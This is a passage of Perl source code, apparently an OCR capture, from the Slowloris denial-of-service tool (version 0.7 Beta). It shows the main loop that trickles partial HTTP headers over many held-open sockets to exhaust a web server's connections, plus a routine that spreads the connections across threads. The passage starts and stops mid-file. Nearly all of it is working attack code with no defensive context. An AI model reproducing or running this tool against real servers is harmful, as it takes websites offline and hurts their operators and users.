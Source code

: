 ```
                    $failed++;
                    $failedconnections++;
                }
            }
        }
        print "\t\tSending data.\n";
        foreach my $z ( 1 .. $num ) {
            if ( $working[$z] == 1 ) {
                if ( $sock[$z] ) {
                    my $handle = $sock[$z];
                    if ( print $handle "X-a: b\r\n" ) {
                        $working[$z] = 1;
                        $packetcount++;
                    }
                    else {
                        $working[$z] = 0;
                        #debugging info
                        $failed++;
                        $failedconnections++;
                    }
                }
                else {
                    $working[$z] = 0;
                    #debugging info
                    $failed++;
                    $failedconnections++;
                }
            }
        }
        print
"Current stats:\tSlowloris has now sent $packetcount packets successfully.\nThis thread now sleeping for $timeout seconds...\n\n";
        sleep($timeout);
    }
}

sub domultithreading {
    my ($num) = @_;
    my @thrs;
    my $i                    = 0;
    my $connectionsperthread = 50;
    while ( $i < $num ) {
        $thrs[$i] =
          threads->create( \&doconnections, $connectionsperthread, 1 );
        $i += $connectionsperthread;
    }
    my @threadslist = threads->list();
    while ( $#threadslist > 0 ) {
        $failed = 0;
    }
}

__END__

=head1 TITLE

Slowloris

=head1 VERSION

Version 0.7 Beta

=head1 DATE
```